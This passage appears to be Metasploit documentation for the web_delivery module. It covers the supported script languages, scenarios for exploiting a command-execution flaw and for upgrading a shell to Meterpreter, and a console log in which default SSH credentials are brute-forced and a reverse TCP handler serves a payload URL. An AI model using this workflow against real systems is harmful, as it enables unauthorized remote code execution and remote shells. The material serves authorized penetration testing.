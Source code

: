 Python is a popular language, especially on Unix-based systems. It has shipped by default with Ubuntu Linux since version 8.04, Mac OS X since version 10.3, and is widely available on other systems as well.

**PHP**

PHP is often found on web servers, especially in shared hosting environments. It is the basis for popular web applications such as WordPress, Joomla, and Drupal.

**Powershell/Windows**

Powershell is a popular language on modern Windows systems, largely replacing batch files and Windows Scripting Host for Windows automation. Windows 7 and Windows Server 2008 R2 were the first versions to come with Powershell by default. Older Windows systems, such as XP and Server 2003, can still have it installed as an optional component.

## Scenarios

**Against a compromised web application**

web_delivery works nicely against a web application with a command execution vulnerability. One way to approach this would be:

1. Start exploit/multi/script/web_delivery
2. Use [Burp Suite](https://portswigger.net/burp/) to intercept the HTTP/HTTPS request, place the command in the parameter that results in arbitrary code execution.
3. If the modified HTTP/HTTPS request is successful, you should get a session.

**Shell upgrade**

web_delivery is also useful to upgrade a shell type payload to a Meterpreter one. Here's how that can be done:

1. Start `exploit/multi/script/web_delivery` that generates the command to inject.
2. Interact with the shell, and copy/paste the command.
3. You should get a Meterpreter session.

An example of this process can be seen below where an Ubuntu 14.04 victim is first exploited through `auxialiary/scanner/ssh/ssh_login`, and then upgraded via `web_delivery`.

```
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(ssh_login) > set rhosts 192.168.2.156
rhosts => 192.168.2.156
msf auxiliary(ssh_login) > set username ubuntu
username => ubuntu
msf auxiliary(ssh_login) > set password ubuntu
password => ubuntu
msf auxiliary(ssh_login) > run

[*] SSH - Starting bruteforce
[+] SSH - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare) Linux Ubuntu14 4.2.0-27-generic #32~14.04.1-Ubuntu SMP Fri Jan 22 15:32:26 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
[!] No active DB -- Credential data will not be saved!
[*] Command shell session 1 opened (192.168.2.117:35219 -> 192.168.2.156:22) at 2017-03-05 19:57:53 -0500
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login) > use exploit/multi/script/web_delivery
msf exploit(web_delivery) > set lhost 192.168.2.117
lhost => 192.168.2.117
msf exploit(web_delivery) > run
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.2.117:4444
[*] Using URL: http://0.0.0.0:8080/DovbvqRaB
[*] Local IP: http://192.168.2.117:8080/DovbvqRaB
```